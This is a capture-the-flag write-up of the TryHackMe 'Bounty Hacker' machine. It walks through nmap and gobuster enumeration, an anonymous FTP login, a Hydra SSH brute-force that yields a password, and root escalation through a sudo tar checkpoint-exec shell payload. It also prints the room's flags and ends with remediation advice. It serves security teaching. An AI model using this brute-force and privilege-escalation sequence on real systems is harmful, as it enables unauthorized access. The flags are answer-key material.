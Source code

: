 # Lab Report - Bounty Hacker


# Overview 
- **Category**: Web
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
>**- An easy boot-to-root machine.** 

## Resolution Summary 
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.**

# Information Gathering 
## Active Reconnaissance 
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities.** 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:**
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant.**

- **We got the following results from `GoBuster`:**
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`:** 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command:** 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case.** 
- **Another reflex would be to use `help` to list the available commands:**
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`**
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials.** 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server:** 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`.**
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`:** 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials :**
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using:** 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag:** 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
- **Our goal here was to find a way to escalate our privileges and access the final flag.**
- **For started, we tried to see which command we could possibly use with sudo:**
```bash
sudo -l
```

- **And here was the result:** 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors.** 
- **We found the following payload to use:** 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using:**
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
**User.txt → `THM{CR1M3_SyNd1C4T3}`**

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
